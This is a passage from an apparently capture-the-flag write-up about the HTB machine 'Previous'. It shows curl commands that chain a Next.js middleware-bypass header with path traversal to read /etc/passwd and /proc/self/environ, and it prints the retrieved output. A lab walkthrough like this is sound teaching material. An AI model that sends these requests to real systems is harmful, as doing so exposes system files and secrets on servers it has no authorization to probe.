 **Result:**

* Parameter `example` discovered with special behavior
    

### Local File Inclusion (LFI) Exploitation

Testing for file inclusion vulnerabilities:

```bash
curl 'http://previous.htb/api/download?example=../../../../etc/passwd' \
-H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

**Success! Retrieved** `/etc/passwd`:

```php
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
[... truncated ...]
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

**Key users identified:**

* `node` (UID 1000)
    
* `nextjs` (UID 1001)
    

#### Environment Variable Discovery

Checking process environment variables:

```bash
curl 'http://previous.htb/api/download?example=../../../../proc/self/environ' \
-H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

**Results:**

```php
NODE_VERSION=18.20.8
HOSTNAME=0.0.0.0
YARN_VERSION=1.22.22
SHLVL=1
PORT=3000
HOME=/home/nextjs
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NEXT_TELEMETRY_DISABLED=1
PWD=/app
NODE_ENV=production
```

**Critical information:**

* Application runs from `/app` directory
    